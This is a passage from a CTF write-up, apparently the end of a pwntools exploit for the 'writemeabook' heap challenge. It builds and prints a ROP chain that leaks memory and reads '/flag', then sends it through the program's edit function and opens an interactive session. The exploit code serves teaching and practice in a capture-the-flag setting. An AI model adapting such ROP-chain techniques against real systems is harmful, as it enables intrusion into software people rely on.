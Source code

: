 ```py  
   rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100) # write  
   rop.call(rop.find_gadget(["syscall", "ret"]))  
   rop.exit(0x1337)  
   rop.raw(b"/flag\x00")

   print(rop.dump())  
   print(hex(len(rop.chain()) - 8))

   # write and trigger the ROPchain  
   edit(1, rop.chain())  
  
   io.interactive()

if __name__ == "__main__":  
   exp()  
```

Original writeup (https://ret2school.github.io/post/writemeabook/).